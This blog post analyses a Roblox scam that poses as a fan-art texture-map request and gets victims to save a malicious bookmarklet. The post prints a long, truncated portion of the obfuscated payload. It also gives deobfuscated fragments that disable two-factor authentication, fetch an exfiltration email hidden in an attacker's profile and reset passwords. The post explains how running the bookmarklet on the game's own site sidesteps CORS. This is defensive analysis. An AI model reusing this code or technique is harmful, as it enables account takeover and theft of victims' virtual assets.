

If you’re in the threat intelligence space, you’ve probably seen headlines about $1 billion dollar crypto heists pulled off by Lazarus group in North Korea. You’ve seen multi-million dollar deals being made for decrypting ransomware and infostealers with nine figures in estimated damages. What you probably haven’t seen is the cyber battlefield of children’s online gaming - particularly a game called Roblox.
The Target
The best time to start investing was yesterday, but getting started at 10 years old works too. My friend Gary started investing in fifth grade, spending his free time flipping and trading assets while everyone else was watching Disney channel. Although there’s a catch - Gary was trading collectible virtual items on Roblox, not futures or securities (I suppose it’s the best a 10 year old can get).
Roblox allows users to purchase clothing and accessories to customize their avatars. Some of these items are “limited collectibles”, meaning that only a set number of the item will ever be sold and available on the market. You can imagine that once all of the items are sold, the aftermarket value of them tends to go up with time. Gary saw this too, spending any birthday money or allowances on limited items like viking hats or fiery balaclavas, praying they would appreciate.
At the time, returns were low and it seemed like a waste of money. But that was 2010, and Gary never stopped trading. Today, Gary’s vast collection is worth several thousand real US dollars - he has made a not-insignificant income from viking hats and rainbow shades.
Things aren’t all great, though. As the market matured and Gary’s assets exploded in value, so too did the complexities of the virtual economy. Alongside complexity came opportunity to make significant money, either through legitimate or malicious means. Threat actors and script kiddies routinely targeted Gary’s fortune through phishing attacks, and last month one such actor decided to try his luck.
The Attack
Gary got home from work and logged on to review his assets one day. After checking his inbox for trade requests, he stumbled upon a message requesting permission to make fan art of his avatar. According to Gary, this is actually fairly common as his avatar is quite unique and well known on the game. Many individuals don’t want to be sued for royalties when using his avatar’s likeness, so many reach out to confirm with Gary ahead of time.
Gary agreed and sent his reply. The artist replied back cheerfully and said they would start on the art soon, but requested that Gary send over a special “texture map” of his avatar. Again, Gary said that this isn’t completely out of the ordinary - the texture map can help a lot with correctly modeling avatars in animations, for example.
Included in the artist’s request for a texture map was a link to a website containing a “bookmarkable button” to quickly generate the map for his avatar. It seemed like a convenient idea for someone who may need to generate a lot texture maps often.
But this isn’t Gary’s first rodeo. He’s seen this kind of trickery and shadiness before. He asked me to take a look to fully confirm it’s a scam (or at least malicious), so I did (spoiler alert: it’s malicious).
The website was barren except for a tutorial video and giant “INSTALL” button. I decided to inspect the website’s source and take a look at the button, which was comically suspicious:
<a href="javascript:const%20_0x4cc798%3D_0x2001%3B%28function%28_0x5d8d84%2C_0x388ac2%29%7Bconst%20_0x108b54%3D_0x2001%2C_0x39dcc9%3D_0x5d8d84%28%29%3Bwhile%28%21%21%5B%5D%29%7Btry%7Bconst%20_0x1b78d8%3D-parseInt%28_0x108b54%280x185%29%29%2F0x1%2A%28parseInt%28_0x108b54%280xc3%29%29%2F0x2%29%2B-parseInt%28_0x108b54%280x183%29%29%2F0x3%2A%28parseInt%28_0x108b54%280x152%29%29%2F0x4%29%2B-parseInt%28_0x108b54%280x17c%29%29%2F0x5%2B-parseInt%28_0x108b54%280x162%29%29%2F0x6%2A%28-parseInt%28_0x108b54%280xc2%29%29%2F0x7%29%2BparseInt%28_0x108b54%280x144%29%29%2F0x8%2B-parseInt%28_0x108b54%280x111%29%29%2F0x9%2BparseInt%28_0x108b54%280x142%29%29%2F0xa%2A%28parseInt%28_0x108b54%280xca%29%29%2F0xb%29%3Bif%28_0x1b78d8%3D%3D%3D_0x388ac2%29break%3Belse%20_0x39dcc9%5B%27push%27%5D%28_0x39dcc9%5B%27shift%27%5D%28%29%29%3B%7Dcatch%28_0x5c0eac%29%7B_0x39dcc9%5B%27push%27%5D%28_0x39dcc9%5B%27shift%27%5D%28%29%29%3B%7D%7D%7D%28_0x219d%2C0x1dfe2%29%2Cwindow%5B_0x4cc798%280xe9%29%5D%3Ddocument%5B_0x4cc798%280x110%29%5D%28_0x4cc798%280x169%29%29%5B0x0%5D%5B%27getAttribute%27%5D%28_0x4cc798%280x11a%29%29%2Cwindow%5B_0x4cc798%280xbd%29%5D%3D%27%27%29%3Bfunction%20_0x2001%28_0x34f505%2C_0x56e9bf%29%7Bconst%20_0x219db2%3D_0x219d%28%29%3Breturn%20_0x2001%3Dfunction%28_0x20010f%2C_0x526ece%29%7B_0x20010f%3D_0x20010f-0xa3%3Blet%20_0x3a8f3e%3D_0x219db2%5B_0x20010f%5D%3Breturn%20_0x3a8f3e%3B%7D%2C_0x2001%28_0x34f505%2C_0x56e9bf%29%3B%7Dconst%20acceptableHeaders%3D%7B%27accept%27%3A%27application%2Fjson%2C%5Cx20text%2Fplain%2C%5Cx20%2A%2F%2A%27%2C%27accept-language%27%3A_0x4cc798%280x13e%29%2C%27sec-ch-ua%27%3A_0x4cc798%280x116%29%2C%27sec-ch-ua-mobile%27%3A%27%3F0%27%2C%27sec-ch-ua-platform%27%3A_0x4cc798%280xa6%29%2C%27sec-fetch-dest%27%3A_0x4cc798%280x14c%29%2C%27sec-fetch-mode%27%3A_0x4cc798%280xa4%29%2C%27sec-fetch-site%27%3A_0x4cc798%280xec%29%2C%27sec-gpc%27%3A%271%27%7D%2CyourSitesURL%3D_0x4cc798%280xae%29%2CgetCsrfToken%3Dasync%28%29%3D%3E%7Bconst%20_0x3d5a96%3D_0x4cc798%2C_0x313a18%3Dawait%20fetch%28%27https%3A%2F%2Fapis.roblox.com%2Fuser-settings-api%2Fv1%2Fuser-settings%3FwhoCanJoinMeInExperiences%3DFollowers%27%2C%7B%27credentials%27%3A%27include%27%2C%27headers%27%3AacceptableHeaders%2C%27method%27%3A%27POST%27%2C%27mode%27%3A_0x3d5a96%280xa4%29%7D%29%5B_0x3d5a96%280x12b%29%5D%28_0x498197%3D%3E%7B%7D%29%3Bif%28%21_0x313a18%29return%20await%20getCsrfToken%28%29%3Blet%20_0x11d173%3D_0x313a18%5B_0x3d5a96%280xf8%29%5D%5B_0x3d5a96%280x129%29%5D%28_0x3d5a96%280xd4%29%29%3Bif%28%21_0x11d173%29return%20await%20getCsrfToken%28%29%3Breturn%20_0x11d173%3B%7D%2CunlockAccountByPin%3Dasync%20_0x181c0c%3D%3E%7Bconst%20_0xe09cf9%3D_0x4cc798%3Bfetch%28%27https%3A%2F%2Fauth.roblox.com%2Fv1%2Faccount%2Fpin%2Funlock%3Fpin%3D%27%2B_0x181c0c%2C%7B%27headers%27%3A%7B%27accept%27%3A_0xe09cf9%280xa9%29%2C%27accept-language%27%3A_0xe09cf9%280x13e%29%2C%27content-type%27%3A%27application%2Fjson%3Bcharset%3DUTF-8%27%2C%27sec-ch-ua%27%3A_0xe09cf9%280x116%29%2C%27sec-ch-ua-mobile%27%3A%27%3F0%27%2C%27sec-ch-ua-platform%27%3A_0xe09cf9%280xa6%29%2C%27sec-fetch-dest%27%3A_0xe09cf9%280x14c%29%2C%27sec-fetch-mode%27%3A_0xe09cf9%280xa4%29%2C%27sec-fetch-site%27%3A_0xe09cf9%280xec%29%2C%27sec-gpc%27%3A%271%27%2C%27x-csrf-token%27%3Aawait%20getCsrfToken%28%29%7D%2C%27referrer%27%3A_0xe09cf9%280xa3%29%2C%27referrerPolicy%27%3A_0xe09cf9%280xc0%29%2C%27body%27%3A_0xe09cf9%280x160%29%2B_0x181c0c%2B%27%5Cx22%7D%27%2C%27method%27%3A_0xe09cf9%280x137%29%2C%27mode%27%3A_0xe09cf9%280xa4%29%2C%27credentials%27%3A_0xe09cf9%280x12f%29%7D%29%5B%27then%27%5D%28_0xbcaa97%3D%3E_0xbcaa97%5B_0xe09cf9%280x178%29%5D%28%29%29%5B_0xe09cf9%280x108%29%5D%28async%20_0x1cbef2%3D%3E%7Bconst%20_0x25f449%3D_0xe09cf9%3Bif%28_0x1cbef2%5B%27includes%27%5D%28_0x25f449%280x143%29%29%29document%5B_0x25f449%280x151%29%5D%28_0x25f449%280x156%29%29%5B_0x25f449%280xad%29%5D%28_0x25f449%280x172%29%2C_0x181c0c%29%2CsetDescription%28%7B%27pin%27%3A_0x181c0c%7D%29%2CcontinueToTwoStep%28%29%2Cconsole%5B_0x25f449%280x14e%29%5D%28_0x25f449%280xcf%29%29%2Cdocument%5B_0x25f449%280xc6%29%5D%28%27PIN%27%29%5B_0x25f449%280xc1%29%5D%5B_0x25f449%280x13f%29%5D%3D_0x25f449%280x139%29%3Belse%20_0x1cbef2%5B_0x25f449%280xb3%29%5D%28_0x25f449%280xff%29%29%3Fdocument%5B_0x25f449%280xc6%29%5D%28_0x25f449%280x102%29%29%5B_0x25f449%280x125%29%5D%3D_0x25f449%280x164%29%3Adocument%5B_0x25f449%280xc6%29%5D%28_0x25f449%280x102%29%29%5B%27innerHTML%27%5D%3D_0x25f449%280x146%29%3B%7D%29%3B%7D%2CcreateOTPsession%3Dasync%28%29%3D%3E%7Bconst%20_0x1f209f%3D_0x4cc798%2C_0x1c30af%3Dawait%20fetch%28_0x1f209f%280xc5%29%2C%7B%27credentials%27%3A_0x1f209f%280x12f%29%2C%27headers%27%3A%7B%27Accept%27%3A_0x1f209f%280xa9%29%2C%27Accept-Language%27%3A%27en-US%2Cen%3Bq%3D0.5%27%2C%27Content-Type%27%3A_0x1f209f%280x136%29%2C%27x-csrf-token%27%3Aawait%20getCsrfToken%28%29%2C%27Sec-GPC%27%3A%271%27%2C%27Sec-Fetch-Dest%27%3A_0x1f209f%280x14c%29%2C%27Sec-Fetch-Mode%27%3A_0x1f209f%280xa4%29%2C%27Sec-Fetch-Site%27%3A_0x1f209f%280xec%29%7D%2C%27referrer%27%3A%27https%3A%2F%2Fwww.roblox.com%2F%27%2C%27body%27%3A_0x1f20
Reviewing just the static strings in the anchor element was enough to know something was up - createOTPsession, getCsrfToken, etc. I told Gary that things weren’t looking good, and don’t expect the fanart any time soon.
I decided to keep going and started deobfuscating the JavaScript. I discovered the malware’s author used this popular obfuscation engine which allowed for easy recovery of the source. Obviously, not all of the source could be recovered - local variable names were still random hex strings.
The Payload
Unsuprisingly, the payload JavaScript was a large amount of fetch requests to endpoints related to account settings and security hosted on the roblox.com domain:
const disable2fa = async (_0x28bbe9, _0x197e35, _0x4fe56d) => {
_0x197e35 = _0x197e35 || 0x0;
_0x197e35++;
if (_0x197e35 >= 0x3) {
return;
}
let _0x42560a = await fetch("https://twostepverification.roblox.com/v1/users/" + _0x28bbe9 + "/configuration/authenticator/disable", {
'headers': Object.assign(acceptableHeaders, {
'x-csrf-token': window.csrf
}),
'referrer': "https://www.roblox.com/",
'referrerPolicy': "strict-origin-when-cross-origin",
'method': "POST",
'mode': 'cors',
'credentials': 'include'
})['catch'](() => {});
if (_0x42560a.status === 0x193) {
_0x4fe56d = _0x42560a.headers.get("x-csrf-token");
await disable2fa(_0x28bbe9, _0x197e35, _0x4fe56d);
} else {
return true;
}
The request that caught my eye first was the initial fetch to a specific user’s ID. Before accessing the victim’s account settings or inventory listings, the payload makes a call to lookup details for a user with the ID number 6055914656 - badmilky22:
fetch("https://users.roblox.com/v1/users/6055914656", {
'headers': {
'accept': "application/json, text/plain, */*",
'accept-language': "en-GB,en-US;q=0.9,en;q=0.8",
'sec-ch-ua': "\"Chromium\";v=\"118\", \"Brave\";v=\"118\", \"Not=A?Brand\";v=\"99\"",
'sec-ch-ua-mobile': '?0',
'sec-ch-ua-platform': "\"Windows\"",
'sec-fetch-dest': 'empty',
'sec-fetch-mode': "cors",
'sec-fetch-site': "same-site",
'sec-gpc': '1'
},
'referrer': "https://www.roblox.com/",
'referrerPolicy': "strict-origin-when-cross-origin",
'method': 'GET',
'mode': "cors",
'credentials': 'include'
After the call, the payload then passes badmilky22’s user biography into the parseBinary function:
const evil_email = parseBinary(_0x5dd11c.description);
That’s interesting. Why is parseBinary in use? Does the Roblox API really support some kind of raw binary serialization of user data? I visited badmilky22’s user page and realized something else was up. The adversary was inserting binary-encoded data directly into their user’s biography:

Malicious Roblox profile with encoded dataDecoding the description to ASCII gives us the email address lr46opcs@fastsearcher.com. Later on in the payload, this email address is used when victim account details are hijacked. The adversary likely uses badmilky22’s account as a C2 node to update where stolen credentials are sent to.
After retrieving the exfiltration email address, the payload enumerates any limited items in the user’s inventory, disables 2FA, and then resets the user’s password. Those are all pretty unsurprising actions, but I was struggling to understand how this attack was even going to work at all. Requests originating from the attacker’s website were all going to fail due to CORS. I was missing something.
The Magic of Bookmarklets
Cross Origin Resource Sharing (CORS) is a security setting for HTTP that can easily stop CSRF attacks originating from foreign domains. In the context attack, CORS would stop any sensitive/credentialed incoming requests (such as changing a user’s password) to roblox.com from the attacker’s domain (robloxscam.scam). With proper configuration, the
malicious ‘link’ (<a/> tag) element embedded with obfuscated JavaScript should NOT be able to successfully make these malicious requests on behalf of a user.
I was a little perplexed - does this adversary just have no clue what he’s doing? It is a children’s game after all. I decided to go back to the scam site and review the “tutorial” video. The video revealed the real attack vector - the scam site didn’t want you to bookmark the site itself, but instead literally drag-and-drop the link-button onto your bookmarks bar.
This drag-and-drop creates what modern browsers call “bookmarklets” - bookmarks that are actually just JavaScript code. Selecting a stored bookmarklet will execute the JavaScript directly in your browser from whatever page you are viewing. This means that executing the bookmarklet from your avatar’s page on roblox.com will bypass any CORS protection and result in successful payload execution. While it may require a bit more action from the victim, bypassing CORS opens up the opportunity for high-impact CSRF attacks with little to no mitigation options.
Conclusion
As far as I am aware, this isn’t a widely discussed attack vector and seems to be an accepted facet of modern browsers. Allowing such powerful execution of code from a stored location enables attackers to perform CSRF attacks on virtually any application, regardless of the application’s inherent security.
Although I have seen plenty of people using bookmarklets for legitimate reasons (deleting all images on a page, etc), I struggle to see the value in permitting telemetry originating from them. Mozilla and Chrome may want to consider disabling HTTP communications for bookmarklets for security reasons.